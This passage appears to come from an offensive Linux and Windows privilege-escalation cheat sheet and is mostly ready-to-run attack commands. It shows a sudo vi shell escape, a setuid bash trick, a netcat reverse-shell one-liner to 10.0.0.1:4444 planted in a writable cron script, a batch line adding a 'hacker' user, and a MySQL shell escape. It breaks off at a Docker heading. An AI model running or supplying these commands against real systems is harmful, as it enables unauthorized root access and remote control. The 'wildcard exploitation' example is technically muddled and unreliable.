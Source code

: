 ## 3. Sudo Misconfigurations

### A. Sudo Without Password

```bash
sudo -l
sudo vi /etc/passwd
:!bash
```

### B. Wildcard Exploitation

```bash
echo 'chmod +s /bin/bash' > exploit.sh  
sudo /bin/chown --reference=exploit.sh /bin/bash  
/bin/bash -p
```

---

## 4. Cron Jobs / Scheduled Tasks

### Linux

```bash
cat /etc/crontab  
ls -la /etc/cron.*
```

Writable script:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f" > script.sh
```

### Windows

```powershell
schtasks /query /fo LIST /v
echo "net user hacker Passw0rd! /add" > C:\Tasks\exploit.bat
```

---

## 5. Weak Services

### A. MySQL Running as Root

```bash
mysql -u root -p  
\! sh
```

### B. Docker Privilege Escalation
